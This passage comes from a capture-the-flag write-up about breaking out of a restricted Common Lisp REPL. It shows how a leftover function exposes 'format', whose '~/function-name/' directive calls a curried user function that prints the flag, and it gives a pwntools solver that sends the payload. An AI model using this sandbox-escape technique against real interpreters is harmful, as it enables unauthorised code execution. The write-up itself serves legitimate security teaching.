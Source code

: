 `(! foo ()
    (princ *flag*))`

Even if `princ` and `*flag*` are **not** accessible from the REPL! Being able to call a function like `foo` would solve the challenge, but as already seen this is not possible from the REPL.

Here comes into play the `init-please` function that was left behind. The function calls `cope` on all the elements of `*dealwithit*`, which is a global list. Here follows the commented code of `cope`:

```cl
(defun cope (f)
  (if (listp f)
      ;; If F is a list (of two elements)
      (if (functionp (second f))
          ;; If the second element of F is a Common Lisp function, assign it to the
          ;; first element of F, which is assumed to be a name. This makes the function
          ;; present in (second f) available in the interpreter under the name specified in
          ;; (first f)
          (sgar! (first f) (symbol-function (second f))) 
          ;; Otherwise, (second f) is just a value like 1 or "foo", and is
          ;; assigned to the name in (first f)
          (sgar! (first f) (second f)))
      ;; Otherwise, return the function directly
      (sgar! f (symbol-function f))))
```

So `init-please` takes the only element of `*dealwithit*`, which is the function symbol `format`, and makes it available in the environment of `please`. This effectively allows the user to call the built-in `format` function.

It should not be a surprise that `format` can do *weird* stuff using [format specifiers](https://www.lispworks.com/documentation/HyperSpec/Body/22_c.htm). In fact, there is the possibility to [call a function](https://www.lispworks.com/documentation/HyperSpec/Body/22_ced.htm) when the `format` input string is evaluated, using `(format nil "~/function-name/" nil)`. The called function must take four arguments, as it is stated in the Common Lisp documentation. Here is where `!` and Currying come handy: `!` allows a function of **one** argument to be defined in the interpreter's environment via `dhc`, and such function can use anything from Common Lisp. Currying makes it possible to define a function of four arguments, as it is needed by `format`, with nested lambda functions. Then, to read the flag, the following can be provided as input in the REPL:

```
>>> (! printer (a) (lambda (b) (lambda (c) (lambda (d) (princ *flag*)))))
>>> (format nil "~/printer/" nil)
```

### Solver

```python
from pwn import *

context.log_level = "error"

host = args.HOST if args.HOST else "localhost"
port = args.PORT if args.PORT else 1337
ssl = args.SSL if args.SSL else None

r = remote(host=host, port=port)

exploit = [
    b"(! printer (a) (lambda (b) (lambda (c) (lambda (d) (princ *flag*)))))",
    b'(format nil "~/printer/" nil)'
]

for e in exploit:
    r.sendlineafter(b">>> ", e)

```